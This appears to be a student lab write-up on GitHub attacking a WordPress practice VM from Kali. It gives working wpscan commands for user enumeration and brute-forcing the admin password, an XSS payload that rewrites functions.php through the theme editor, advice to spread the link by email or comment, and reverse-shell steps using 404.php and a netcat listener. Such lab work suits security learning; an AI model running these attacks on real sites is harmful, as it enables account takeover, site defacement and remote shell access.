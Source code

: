 # WordPressvsKali
Exploit 1: User Enumeration

In this exploit, I launched a user enumeration attack on WPDistillery.vm

1. Open a terminal in Kali
2. Access wpscan tool
3. Input the command
  - sudo wpscan --url http://wpdistillery.vm -e u rockyou.txt
  - Note: -e = enumeration, u = user, and I used rockyou.txt as the userlist.
  
  ![image](https://user-images.githubusercontent.com/111927957/198867624-89719a11-b1f8-4dac-9ea2-abc15ae25f50.png)
  
  The results of the user enumeration scan:
  
  ![image](https://user-images.githubusercontent.com/111927957/198867668-cf89a4a8-8283-4ad0-8e65-b0676c2a8c3c.png)
  
  The enumeration scan identified "admin" as an available user.
  
  This can be checked by attempting to login as Admin on wpdistillery.vm/wp-login.php
  
  ![image](https://user-images.githubusercontent.com/111927957/198867726-35f6a92c-34ed-4111-be9f-97624dd0da9b.png)
  
  The results show that "The password you entered for the username admin is incorrect". This proves that admin is a user on this website. 
  
  Next, I will bruteforce into admin using wpscan.
  
  1. Continuing on the same terminal, insert the command: 
    - sudo wpscan --url http://wpdistillery.vm/wp-login.php -U 'admin' -P fasttrack.txt
    - Note: I'm using fasttrack.txt wordlist to bruteforce into admin.
  ![image](https://user-images.githubusercontent.com/111927957/198867852-f8efa7d9-37e8-4bf9-aee1-a6349979a3dc.png)
  
  ![image](https://user-images.githubusercontent.com/111927957/198867860-d9372c27-a756-4ffc-9b8a-43e7f6f55b2d.png)
  
  Results of the wpscan shows that user "admin" has the password "admin".

  Now we are able to log in as admin and access the website.
  
  Exploit 2: XSS
  
  In this exploit, I will show a method to launch a XSS attack. 
  
  1. As admin, add this script as a new post in the text tab then publish:
     - <script>eval(window.location.hash.substring(1))</script>
     - This makes the website vulnerable to XSS
     - To confirm that it works, go back to the mainpage wpdistillery.vm then add /#alert(1)
     - An alert box should pop up, showing (1)
     ![image](https://user-images.githubusercontent.com/111927957/198874401-26b38a41-6bc0-444d-a1bb-e3b1a6b4c81b.png)
     
   2. Go to theme editor > file functions.php
   3. Insert the following code to break the page:
   -nc=document.querySelector('#newcontent');nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;nc.form.submit.click()
   
   4. Refresh the page the add this to the end of the URL:
   #i=document.createElement('iframe');document.body.appendChild(i);i.src='/wp-admin/theme-editor.php?      file=functions.php';window.setTimeout(function(){nc=i.contentDocument.querySelector('#newcontent');nc.value='<?php echo "HACK THE PLANET";phpinfo();exit()?>'+nc.value;nc.form.submit.click()},3000)
  
   5. Users now won't have access to the website.

![image](https://user-images.githubusercontent.com/111927957/198875062-37c59997-b311-4f63-a008-697fabf3d330.png)

  6. Use a URL shortener to deliver and send this attack as an email or even a comment that the user would read/click on.

Exploit 3: Privilege Escalation

  This exploit will show privilege escalation on WPDistillery.vm
  
  1. Using user enumeration as previously shown, the attacker can use leverage this skill by finding a user available for attack.
  2. Once the user is able to log in using an authenticated user, the attacker can now attempt to escalate the privilege by opening a        reverse shell.
  3. This can be done by using 404.php template on WordPress and inserting a reverse shell implementation php.
      ![image](https://user-images.githubusercontent.com/111927957/198873488-db0d3e67-f8bd-49fc-af98-b69be130547a.png)
      
  4. Make sure to change the IP and Port configuration on the reverse shell php to the correct IP and listening Port so          NetCat can listen to the specified port and access the shell.
  
  5. Use the following command to listen on the specified port:
     - nc -lvp 443
   
  6. If successful, the user should be inside the console.
  7. This can be confirmed by using whoami command in the console. 




  

